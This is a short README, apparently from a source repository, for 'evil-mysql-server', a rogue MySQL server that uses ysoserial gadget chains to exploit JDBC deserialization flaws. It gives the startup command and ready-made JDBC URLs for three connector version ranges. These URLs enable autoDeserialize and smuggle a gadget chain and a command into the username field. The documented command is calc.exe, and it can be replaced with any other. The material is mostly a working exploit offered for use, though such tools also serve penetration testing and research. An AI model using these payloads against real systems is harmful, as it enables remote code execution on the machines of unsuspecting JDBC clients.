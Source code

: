 # evil mysql server

English | [简体中文](./README-zh_CN.md)

## Introduction

**evil-mysql-server** is a malicious database written to target jdbc deserialization vulnerabilities and requires ysoserial.

Usage

```shell
. /evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

After successful startup use jdbc to connect, where the username format is `yso_payload_command`, after successful connection **evil-mysql-server** will parse the username and generate malicious data back to the jdbc client using the following command.

```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```

## JDBC url examples

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```